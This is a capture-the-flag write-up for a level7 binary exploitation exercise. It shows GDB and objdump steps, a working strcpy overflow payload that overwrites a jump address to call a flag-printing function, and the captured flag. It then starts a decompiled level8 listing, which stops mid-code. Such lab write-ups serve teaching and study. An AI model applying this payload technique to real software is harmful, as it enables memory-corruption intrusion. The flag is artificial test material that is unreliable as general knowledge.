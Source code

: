 The strcpy function is used to copy command-line arguments into memory buffers (struct1[1] and struct2[1]) without bounds checking.
This allows overwriting critical memory locations, such as function pointers.

1. Find the location of the m function, which prints the flag along with a timestamp: 0x080484f4

	```bash
	objdump -t level7
	```

2. Find the jump address to modify: 0x08049928

	```bash
		info functions
		info functions puts
		x/i 0x08048400
	```

3. GDB

	```bash
	run `python -c 'print("A" * 20 + "\x28\x99\x04\x08")'` `python -c 'print("\xf4\x84\x04\x08")'`
	```
	If we try this payload in GDB, we get a `segfault` in the `fgets` function. That's because GDB tries to open a file it doesn't have permission to access. But outside of GDB, the program should work correctly.

4. Exploit

	```bash
	./level7 `python -c 'print("A" * 20 + "\x28\x99\x04\x08")'` `python -c 'print("\xf4\x84\x04\x08")'`
	```



## LEVEL7 - FLAG

5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

## LEVEL8 - BINARY ANALYSIS

```c
undefined4 main(void) {
	char char_read;
	char *auth_buffer;
	char *service_buffer;
	int comparison_result;
	uint length_check;
	byte *input_ptr;
	byte *command_ptr;
	char input_buffer[5];
	char auth_command[2];
	char service_command[125];
	char *auth = NULL;
	char *service = NULL;

	while (1) {
		printf("%p, %p \n", auth, service);
		char *input = fgets((char *)input_buffer, 0x80, stdin);
		if (input == NULL) {
			return 0;
		}


		comparison_result = strncmp(input_buffer, "auth ", 5);
		if (comparison_result == 0) {
			auth = (char *)malloc(4);
			if (auth == NULL) {
```